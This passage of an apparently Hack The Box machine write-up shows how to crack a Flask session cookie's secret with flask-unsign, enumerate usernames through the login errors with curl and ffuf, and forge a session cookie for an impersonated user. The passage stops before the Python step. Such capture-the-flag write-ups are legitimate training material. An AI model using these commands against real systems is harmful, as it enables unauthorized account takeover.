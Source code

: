 ## Impersonating the staff

### Cracking the JWT

Since the server is Werkzeug and the port 5000, the application is most likely
made with Flask.

Also the signature is valid with the `HS256` algorithm.

Hacktricks points toward [Flask-Unsign][hacktricks]:

```shell
flask-unsign --unsign --no-literal-eval \
    --wordlist /usr/share/wordlists/passwords/rockyou-75.txt \
    --cookie 'eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIm5vdGUgVXBkYXRlZCJdfV0sImxvZ2dlZF9pbiI6dHJ1ZSwidXNlcm5hbWUiOiJhcGVoZXgifQ.YoZYNA.R84EdAvQlWtep73ABT3rrX_cIoI'
```

The JWT was signed with `secret123`!

### Finding a target user

To impersonate a user with the JWT, we need a valid username.

The login page responds with "Invalid credentials" when a user doesn't exist
and "Invalid login" when the username exist and the password is wrong:

```shell
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'username=test&password=pass' \
    $'http://10.10.11.160:5000/login' | grep -ai invalid
```

This distinction enables user enumeration:

```shell
ffuf -X $'POST' -u $'http://10.10.11.160:5000/login' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -d $'username=FUZZ&password=pass' \
    -w $'/usr/share/wordlists/usernames/cirt-default-usernames.txt' \
    -fr $'valid credentials' \
    -o $'discovery/10.10.11.160/usernames'
```

Only "blue" comes out.

### Crafting a new JWT

We can now create valid tokens with arbitrary content with:

```shell
flask-unsign --sign --cookie '{"logged_in":true,"username":"blue"}' --secret 'secret123'
```

Actually the CLI is escaping some characters, making the format invalid. So
I used the module directly in Python:


[author-profile]: https://app.hackthebox.com/users/389926
[dashboard]: images/dashboard.png
[hacktricks]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask#flask-unsign
[leak]: images/leak.png
[mysql-udf]: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
[raptor-udf2]: https://www.exploit-db.com/exploits/1518